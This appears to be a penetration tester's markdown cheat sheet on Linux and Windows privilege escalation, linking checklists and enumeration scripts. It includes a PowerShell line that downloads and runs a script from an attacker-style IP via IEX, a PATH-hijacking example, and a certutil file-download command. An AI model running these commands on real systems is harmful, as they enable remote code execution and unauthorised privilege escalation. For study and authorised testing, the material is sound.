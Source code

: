# priv-esc

|Checklists|
|-|
|[g0tmi1k Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)|
|[hacktricks Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist) |
|[fuzzysecurity Windows Privilege Escalation ](https://www.fuzzysecurity.com/tutorials/16.html) |
|[PowerSploit - PowerUp](https://github.com/PowerShellMafia/PowerSploit)
|[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)|



|Scripts| |
|-|-|
| [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)|
| [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)|
| [linenum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) |
| MSF - local_exploit_suggester |
| [AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) |
| [jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
| [RastaMouse/Sherlock](https://github.com/rasta-mouse/Sherlock) | `powershell "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.24:8888/Sherlock.ps1');$a=find-allvulns;$a | where-object {$_.VulnStatus -notlike 'not *'}| ft Title,VulnStatus,MSBulletin,CVEID,Link -autosize"` | 

## Path vulnerability

If something searches the Path for a a command and where able to replace the path we can trick the system to execute something else.  
Whenever we use `ls` it will now actually run `cat`.

```bash
export PATH="/tmp/tmp:${PATH}"
cp /bin/cat /tmp/tmp/cat
mv /tmp/tmp/cat /tmp/tmp/ls
```

## [GTFOBins](https://gtfobins.github.io/)

## Download files in command prompt

```
certutil.exe -urlcache -split -f "https://url/file" file
```
